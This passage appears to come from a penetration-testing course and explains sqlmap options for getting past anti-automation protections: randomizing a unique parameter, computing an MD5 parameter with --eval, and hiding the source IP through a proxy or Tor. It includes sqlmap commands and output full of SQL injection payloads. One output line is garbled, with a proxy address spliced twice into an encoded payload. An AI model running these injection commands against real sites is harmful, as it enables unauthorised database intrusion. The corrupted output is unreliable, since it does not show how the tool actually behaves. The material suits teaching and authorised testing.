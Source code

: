 ## Unique Value Bypass

In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content. So, by simply ensuring that each request has a unique value for a predefined parameter, the web application can easily prevent CSRF attempts while at the same time averting some of the automation tools. For this, the option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent:

Bypassing Web Application Protections

```shell-session
slomkm@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

---

## Calculated Parameter Bypass

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. To bypass this, the option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target:

Bypassing Web Application Protections

```shell-session
slomkm@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

---

## IP Address Concealing

In case we want to conceal our IP address, or if a certain web application has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network Tor. A proxy can be set with the option `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.
